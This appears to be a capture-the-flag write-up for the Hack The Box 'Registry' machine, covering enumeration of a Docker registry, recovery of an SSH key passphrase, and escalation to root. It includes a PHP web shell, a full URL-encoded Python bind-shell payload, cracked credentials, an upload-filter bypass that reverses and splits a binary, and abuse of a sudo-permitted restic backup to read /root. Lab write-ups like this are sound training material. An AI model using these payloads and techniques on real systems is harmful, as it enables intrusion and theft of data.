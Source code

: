 ![](./logo.png)

Running some enumeration on the box gives us port `22`, `80` and `443` open and running. 

The first interesting thing to notice is the `commonName` in the self-signed SSL certificate: `docker.registry.htb`. Commonly boxes will have dynamic host redirection. 

Therefore, due to the lack of DNS with HTB adding this to the `/etc/hosts` file lets us resolve this address to the box IP.

This then gives us a completely blank page?

Running `gobuster` on all endpoint gives us a `/v2` endpoint!

With some research it shows this endpoint as a `docker hub`. With a little trial and error it shows default creds:
```
admin:admin
```

A `docker` hub is designed to be able to host docker images that may be required locally.

In order to look at the available repos we can navigate to the `_catalog` directory.
```
http://docker.registry.htb/v2/_catalog
```

This shows us an image called `bolt-image`.

In order to download this image locally we need do a little setup. Because `docker` will get mad about a self-signed certificate we need to add the url to `insecure-registries`. Below is the file and contents:

Filepath:
```
/etc/docker/daemon.json
```

Contents:
```
{
  "insecure-registries" : ["docker.registry.htb"]
}
```

This will now let us pull the image like so:
```
sudo docker pull docker.registry.htb/bolt-image
```

We can then launch a shell on the container like so:
```
sudo docker run -it docker.registry.htb/bolt-image /bin/bash
```

This lets us look around the container file system.

Looking around shows us `.ssh` keys in the the `/root` directory. They are for the user `bolt`, but are password protected. A quick brute force gave no results, therefore, another method is needed.

Looking in the user directory shows us a `.vimprofile` file. This contains reference to a file `/etc/profile.d/01-ssh.sh`. This file contains:

```bash
#!/usr/bin/expect -f
#eval `ssh-agent -s`
spawn ssh-add /root/.ssh/id_rsa
expect "Enter passphrase for /root/.ssh/id_rsa:"
send "GkOcz221Ftb3ugog\n";
expect "Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)"
interact
```

This gives us the password for the `ssh` key:

```
GkOcz221Ftb3ugog
```

This lets us log on and grab the `user.txt`!

# ROOT


We're on the machine as `bolt`. Taking a look around the file system gives us access to the `bold.db`.

Taking a look inside gives us a password hash for `admin`:

```
$2y$10$e.ChUytg9SrL7AsboF2bX.wWKQ1LkS5Fi3/Z0yYD86.P5E9cpY7PK
```

Cracking it gives us

```
admin:strawberry
```

This gives us access to the `bolt` webpage.

Now, getting a reverse shell has some issues, previously it was noted that the machine was blocking connections out but we have access to connections inbound. So for example, we could host a `http` server on the box a exfiltrate files out but not the other way around.

This is the perfect use case for a bind shell, this is a reverse shell but with the client and sever flipped.

We can upload files by first changing the config.yml to allow any file type we want. In this case `.php`.

![](_images/config.png)

This then allows us to upload a `php` payload:

```php
<?php echo system($_GET['cmd']); ?>
```

This script just lets us have a RCE exploit. This is where we will run our bind shell!

Below is the blob url that we will use to run the command:

```
http://10.10.10.159/bolt/files/php-get-simple.php?cmd=python%20-c%20%22import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind((%27%27,2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call([%27/bin/bash%27,%27-i%27])%22
```

We can now connect to the bind shell with `netcat`:

```
nc 10.10.10.159 2222
```

This circumvents the protection and gives a shell on the victim!


Running the various enum scripts tells us we can run the `restic` command as `root` without our password. This is clearly our privesc method.

```
User www-data may run the following commands on bolt: (root) NOPASSWD: /usr/bin/restic backup -r rest* ---
```

We can use this vuln to copy the `/root` directory and read the `root.txt`.

Because of the previously discovered limit on connections outbound, we need to host a `restic` server on the machine.

We can compile a binary using this Github [repo](https://github.com/restic/rest-server). 

The website provides a way to upload files, however, there seems to be a size limit stopping our binary upload alongside a check for the magic bytes on a file.

![](_images/error.png)

To circumvent this we can reverse the file and split it into chunks. This will stop the file from coming up as an `ELF`.

The command `tac` (Reversed `cat`) can be used to reverse a files order. We can use the command below:
```
tac -rs '.' ./rest-server > rest-server_rev 
```

We can the chunk the file using `split`:

```
split -b 3000000 ./rest-server_rev
```

This will create a series of files:

```
xxa, xxb, xxc ...
```

That we can then zip and push to the machine.

This can be recreated on the other end and then reversed to create the binary on the other side.

NOTE: Using a dumb shell caused issues with reversing the binary and would not create a valid result. Upgrading the shell fixed this issue.

Before we run the server we need to init a repo on the victim:
```
restic init -r ./repos
```

We could now run the server locally.

```
./rest-server --no-auth --path <REPO_DIR>
```

This will now let us connect and 'backup' the `/root` directory

```
sudo /usr/bin/restic backup -r rest:http://127.0.0.1:8000/ /root
```

This will download the contents of the `/root`.

Finally we can 'restore' the backup to a place we control:

```
restic -r <REPO_DIR> restore <REPO_ID> --target /tmp
```

This will then create a `root.txt` locally and allow us to grab the flag!
